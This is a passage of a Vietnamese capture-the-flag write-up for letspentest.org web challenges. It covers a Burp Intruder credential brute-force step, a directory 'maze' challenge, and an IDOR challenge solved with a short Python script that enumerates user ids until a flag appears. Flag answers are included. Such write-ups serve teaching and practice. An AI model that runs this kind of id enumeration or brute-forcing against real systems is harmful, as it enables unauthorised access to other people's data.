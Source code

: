 Tăng `payload set` lên 2 và copy password vào, tương tự cho ip là tăng lên 3. Cuối cùng là `Start attack` thôi. Khoảng 1p là xong.
![image](https://user-images.githubusercontent.com/54855855/140252723-5382e36e-b86b-41f5-b6ac-43b556fde69b.png)

### Flag
`FLAG{e6c068faf9241fe9d1f2000516718377}`

## Challenge The maze runner
Ở bài này chỉ là các tên folder và file là các kí tự xếp lại không có nghĩa. Ở bài này mình rảnh nên mình sài tay click từng cái và kiếm flag.

Với trường hợp nếu như folder quá nhiều và chứa rất nhiều file khác nữa thì các bạn có thể `wget` nó về và sử dụng command để tìm nhé, sẽ nhanh hơn. 

### Payload
```
http://chal10.web.letspentest.org/MS70RIE/2D5TA9DK/UGR85I0H/60ADG
```

### Flag
`FLAG{6059e2117ea3eeecdad7faf1e15d16a2}`

## Challenge ID'OR1=1
Bài cho chúng ta nhập vào `id` và in ra thông tin của id đó. Mình thử một số payload của sqli thì không có gì => thử brute id có thể flag nằm ở 1 id nào đó, dạng này còn gọi là [IDOR](https://portswigger.net/web-security/access-control/idor)

### Payload
Vì server đang sập nên mình không thể brute bằng burp mà chỉ nhớ lại và viết một đoạn code exploit bằng python3 dưới đây nhé

```py
#!/usr/bin/env python3
import requests

URL = 'http://chal11.web.letspentest.org/user'

for i in range(1,5000):
	print(i,end='\r')
	params = {'id':f'{i}'}
	r = requests.get(URL, params=params)
	if 'flag{' in r.text:
		print(r.text)
		break
```
Mình nhớ là `id=1337` là sẽ có flag

### Flag
`Flag{61cb4a784e83b6109999af6f036b88bf}`
